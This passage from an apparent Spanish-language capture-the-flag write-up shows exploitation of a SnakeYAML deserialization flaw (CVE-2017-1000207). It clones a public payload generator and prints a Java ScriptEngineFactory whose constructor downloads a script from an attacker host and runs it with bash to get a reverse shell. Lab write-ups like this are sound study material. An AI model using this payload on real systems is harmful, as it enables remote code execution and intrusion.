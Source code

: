 
## Explotación [#](#explotación) {#explotación}

Al buscar el CVE encotramos un articulo sobre la vulnerabilidad:

* [CVE-2017-1000207 / Vuln in Swagger Parser and Swagger Codegen, YAML parsing results arbitrary code execution](https://nvd.nist.gov/vuln/detail/CVE-2017-1000207).

Bueno entonces al pasarle nuestro payload `SNAKE YAML` llamara al constructor `ScriptEngineFactory` y este a su vez realizara una peticion a nuestra maquina.

Vamos a descargar el repositorio que genera los payloads para poder ejecutar codigo en el sistema:

* [https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload).

Hacemos la clonacion del repositorio:

```bash
❯ git clone https://github.com/artsploit/yaml-payload
Clonando en 'yaml-payload'...
remote: Enumerating objects: 10, done.
remote: Total 10 (delta 0), reused 0 (delta 0), pack-reused 10
Recibiendo objetos: 100% (10/10), listo.
❯ ls
 yaml-payload   2021-07-03-ophiuchi.md

```
El exploit nos dice que debemos poner el codigo que deseamos ejecutar en `AwesomeScriptEngineFactory.java`

```bash
❯ tree
.
├── 2021-07-03-ophiuchi.md
└── yaml-payload
    ├── README.md
    └── src
        ├── artsploit
        │   └── AwesomeScriptEngineFactory.java
        └── META-INF
            └── services
                └── javax.script.ScriptEngineFactory

5 directories, 4 files
```

Observamos que se encuentra ahi el script `AwesomeScriptEngineFactory.java` lo abrimos y procedemos a modificar el codigo que queremos ejecutar 

```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl http://10.10.16.4/reverse.sh -o /tmp/reverse.sh");
            Runtime.getRuntime().exec("bash /tmp/reverse.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

```